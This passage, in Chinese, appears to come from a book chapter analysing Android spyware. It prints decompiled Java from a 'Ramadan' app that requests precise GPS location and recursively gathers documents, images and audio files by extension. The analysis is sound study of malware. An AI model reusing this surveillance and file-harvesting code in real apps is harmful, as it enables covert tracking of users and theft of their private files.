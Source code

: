 ```
            this.g = this.e.getLongitude();
          }
        }
      }
      if (this.b && this.e == null) {
        this.h.requestLocationUpdates("gps", 30000, 10.0f, this);
        if (this.h != null) {
          this.e = this.h.getLastKnownLocation("gps");
          if (this.e != null) {
            this.f = this.e.getLatitude();
            this.g = this.e.getLongitude();
          }
        }
      }
      return this.e;
    } catch (Exception e2) {
      e2.printStackTrace();
    }
  }
}
```

*列表 8-4：Ramadan 应用访问精确位置数据*

不清楚这里访问的位置数据是间谍软件功能的一部分，还是应用的合法活动，因为代码将其发送到一个第二个 URL，而这个 URL 显然与应用的主要指挥与控制服务器或恶意软件开发者没有直接关联。

列表 8-5 显示了用于收集潜在敏感文件的关键功能。特别是，我们看到它正在查找扩展名为 *.txt*、*.apk*、*.mp3*、*.3gp*、*.opus*、*.ogg*、*.doc*、*.pdf*、*.jpeg* 和 *.jpg* 的文件。

```
public static ArrayList<File> a(File file) {
  ArrayList<File> arrayList = new ArrayList<>();
  File[] listFiles = file.listFiles();
  if (listFiles != null && listFiles.length > 0) {
    for (File file2 : listFiles) {
      if (file2.isDirectory()) {
        arrayList.addAll(a(file2));
      } 
      else if (
          file2.getName().endsWith(".txt") ||
          file2.getName().endsWith(".apk") ||
          file2.getName().endsWith(".mp3") ||
          file2.getName().endsWith(".3gp") ||
          file2.getName().endsWith(".opus") ||
          file2.getName().endsWith(".ogg") ||
          file2.getName().endsWith(".doc") ||
          file2.getName().endsWith(".pdf") ||
          file2.getName().endsWith(".jpeg") ||
          file2.getName().endsWith(".jpg")) {
        arrayList.add(file2);
      }
    }
  }
  return arrayList;
}
```
